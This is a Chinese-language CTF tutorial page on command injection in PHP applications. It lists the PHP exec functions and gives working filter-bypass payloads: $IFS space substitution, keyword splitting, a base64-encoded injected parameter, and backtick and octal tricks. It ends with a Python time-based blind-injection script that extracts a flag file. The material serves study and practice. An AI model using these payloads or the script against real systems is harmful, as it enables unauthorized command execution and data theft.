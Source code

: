 ```yaml
---
title: 【WEB】命令执行
---
```


# 命令执行

以下介绍为 PHP 环境

用于命令执行的函数有

```
system
exec
passthru
shell_exec
```



## 一些常见的绕过方法

命令拼接

<img src="/assets/wgpsec/images/exec/1.png" alt="image-20201218105802" style="zoom: 67%;"/>

以及

```
%0a
%0d
\n
```

空格绕过

```
$IFS
${IFS}
$IFS$1
%09
{cat,flag.php}
```

关键字 flag 被过滤

```
fla\g
a=g;fla$a
```

例如：

```
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

或者使用 base64 编码绕过

```
?url=127.0.0.1|`echo%09WTJGMElDOWxkR012TG1acGJtUm1iR0ZuTDJac1lXY3VkSGgw|base64%09-d|base64%09-d`
```

另外如反引号可在语句中执行命令

```
ls `cat /flag > /var/www/html/1.txt`
```

或者使用 $() 和八进制

```
$(printf$IFS$9"\154\163")
```

另附一份无回显盲注脚本

```
import requests
import time

s=requests.session()
flag=''
for z in range(1,50):
    for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_!@#%|^&{}[]/-()+=,\\':
        starTime=time.time()
        url="http://127.0.0.1/?cmd=if [ `cut -c"+str(z)+"-"+str(z)+" /flag` != '"+i+"' ]; then echo 1 ; else sleep 3; fi"
        r=s.get(url)
        if((time.time()-starTime)>3):
            flag+=i
            print(flag)
            break
    print(z)
print('the flag is'+flag)
```